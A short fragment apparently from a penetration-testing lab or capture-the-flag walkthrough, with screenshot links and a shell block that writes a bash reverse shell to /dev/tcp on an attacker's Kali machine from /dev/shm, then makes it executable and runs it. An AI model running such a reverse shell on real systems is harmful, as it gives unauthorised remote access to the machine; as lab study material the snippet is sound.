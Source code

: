 ![alt img](images/4-18.png)
```sh 
 cd /dev/shm
 nano shell.sh
 bash -i >& /dev/tcp/<kali machine IP>/9001(port of choice) 0>&1 (check for more information  )
 chmod +x shell.sh
 bash shell.sh
```
![alt img](images/4-19.png)
![alt img](images/4-20.png)